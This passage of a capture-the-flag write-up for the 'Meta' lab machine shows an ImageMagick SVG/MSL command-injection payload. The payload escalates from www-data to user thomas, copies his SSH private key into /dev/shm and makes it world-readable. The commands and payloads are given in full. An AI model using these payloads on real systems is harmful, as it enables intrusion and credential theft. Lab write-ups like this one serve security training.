 ```bash
www-data@meta:~$ pwd
/dev/shm/tgihf
www-data@meta:~$ ls
exploit.svg
www-data@meta:~$ mogrify -format png *.*
sh: 1: : Permission denied
mogrify: MagickCore/image.c:1168: DestroyImage: Assertion `image != (Image *) NULL' failed.
Aborted
www-data@meta:~$ ls
exploit.svg  output
www-data@meta:~$ cat output
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Copy the same SVG file to `/var/www/dev01.artcorp.htb/convert_files/` and wait a bit. See proof of successful command execution as `thomas` in `/dev/shm/tgihf/output`.

```bash
www-data@meta:~$ cp exploit.svg /var/www/dev01.artcorp.htb/convert_images/
www-data@meta:~$ sleep 30
www-data@meta:~$ cat output
uid=1000(thomas) gid=1000(thomas) groups=1000(thomas)
```

Modify the SVG to copy `thomas`'s SSH private key to `/dev/shm/tgihf/`.

```xml
<image authenticate='ff" `echo $(cp /home/thomas/.ssh/id_rsa /dev/shm/tgihf/)> /dev/shm/tgihf/output`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
  <image xlink:href="msl:/dev/shm/tgihf/exploit.svg" height="100" width="100"/>
  </svg>
</image>
```

```bash
www-data@meta:~$ cp /dev/shm/tgihf/exploit.svg /var/www/dev01.artcorp.htb/convert_images/
www-data@meta:~$ sleep 30
www-data@meta:~$ ls -la /dev/shm/tgihf/id_rsa
-rw------- 1 thomas thomas 2590 Mar  9 18:38 id_rsa
```

Modify the SVG one more time to make the written key world-readable.

```xml
<image authenticate='ff" `echo $(chmod 777 /dev/shm/tgihf/id_rsa)> /dev/shm/tgihf/output`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
  <image xlink:href="msl:/dev/shm/tgihf/exploit.svg" height="100" width="100"/>
  </svg>
</image>
```
